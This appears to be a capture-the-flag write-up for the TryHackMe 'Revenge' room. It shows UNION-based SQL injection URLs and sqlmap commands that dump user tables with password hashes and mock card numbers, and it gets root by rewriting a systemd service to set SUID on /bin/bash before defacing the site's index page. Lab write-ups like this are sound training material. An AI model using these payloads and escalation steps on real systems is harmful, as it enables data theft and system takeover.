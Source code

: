 # 42 - Revenge (MySQL Injection)

Room Link --> [https://tryhackme.com/room/revenge](https://tryhackme.com/room/revenge)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

After Navigating round the entire page, there is a `/products` page that is vulnerable to SQL injection.

If you navigate to a page that dosen't exist, it displays an error.&#x20;

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Number of Columns

`http://10.10.157.23/products/5 UNION SELECT 1,2,3,4,5,6,7,8-- -` - there are 8 columns, if you enter `9` you get an error, and again we see that both columns 8 and 2 are visible so we can output our queries from either of them.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Current User of the DB

`http://10.10.157.23/products/5%20UNION%20SELECT%201,current_user(),3,4,5,6,7,8`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Its the root user.

### Schema/DB Name

`http://10.10.157.23/products/5%20UNION%20SELECT%201,database(),3,4,5,6,7,8`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Or we can do the below to dump all schemas/dbs**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(schema_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.SCHEMATA` - or we can use the "JSON\_ARRAYAGG" with the "CONCAT" function to view all DB/Schema names.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Table Name

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(table_name),3,4,5,6,7,8 from information_schema.tables where table_schema="duckyinc"` -&#x20;

Table name is --> product

**Or we can do the below to dump all tables in the "duckyinc" schema/db**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(table_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema="duckyinc"`&#x20;

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Columns in Table

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="product"`&#x20;

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now:

Under the \`system\_user" Table, these are the columns:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code lineNumbers="true" %}
```bash
["id", "username", "_password", "email"]
```
{% endcode %}

Under the "user" Table, there are many columns here:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code overflow="wrap" lineNumbers="true" %}
```bash
["id", "username", "_password", "credit_card", "email", "company", "Host", "User", "Select_priv", "Insert_priv", "Update_priv", "Delete_priv", "Create_priv", "Drop_priv", "Reload_priv", "Shutdown_priv", "Process_priv", "File_priv", "Grant_priv", "References_priv", "Index_priv", "Alter_priv", "Show_db_priv", "Super_priv", "Create_tmp_table_priv", "Lock_tables_priv", "Execute_priv", "Repl_slave_priv", "Repl_client_priv", "Create_view_priv", "Show_view_priv", "Create_routine_priv", "Alter_routine_priv", "Create_user_priv", "Event_priv", "Trigger_priv", "Create_tablespace_priv", "ssl_type", "ssl_cipher", "x509_issuer", "x509_subject", "max_questions", "max_updates", "max_connections", "max_user_connections", "plugin", "authentication_string", "password_expired", "password_last_changed", "password_lifetime", "account_locked"]
```
{% endcode %}

But the "username, password, creditcard" are what we need to check out.

### Dump Data

We can use the `LIMIT` statement to view all the data one by one.

**1st row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 0,1` .

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**2nd row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 1,1`

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code lineNumbers="true" %}
```bash
1-server-admin-$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a-sadmin@duckyinc.org
2-kmotley-$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa-kmotley@duckyinc.org
3-dhughes-$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK-dhughes@duckyinc.org

```
{% endcode %}

### Using Sqlmap

{% code lineNumbers="true" %}
```bash
# dump the dbs/schemas
sqlmap 10.10.157.23/products/1 --batch --dbs

# dump tables for the "duckyinc" schema/db.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc --tables

# dump the data.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc -T user --dump


# output
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>The flag is also here.</p></figcaption></figure>

### Initial Access

#### Moving forward to Cracking the hashes.

<figure><img src=".gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

The password for the `server-admin` was cracked successfully.

<figure><img src=".gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`sudo -l` .

<figure><img src=".gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

We can modify the "duckyinc.service" file as root.

We can modify this service to our own vulnerable version which will give us a root shell. This will give `/bin/bash` a SUID bit set.

```bash
# edit the service file to:
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target

# after editing the file.
server-admin@duckyinc:~$ sudo -u root /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo -u root /bin/systemctl restart duckyinc.service
server-admin@duckyinc:~$ ls -l /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

<figure><img src=".gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

And we are root:

<figure><img src=".gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

But if we see, we do not have the root flag in `/root` directory. We know from the note we got that we need to deface the front page in order to complete the challenge.

If we check the root dir, we can see a `.vininfo` file, making reference to a `/var/www/duckyinc/templates/index.html` - this is the index page of the company website.

```
nano /var/www/duckyinc/templates/index.html
```

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-qYnnkX3DZIE/X6_mk-ogPfI/AAAAAAAAqqM/627nZBkUVp8n9p-_OWj3vwM7W2xwa5tKACLcBGAsYHQ/s16000/16.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

We list the directory again and now we can read the last flag.

<figure><img src=".gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

Done!

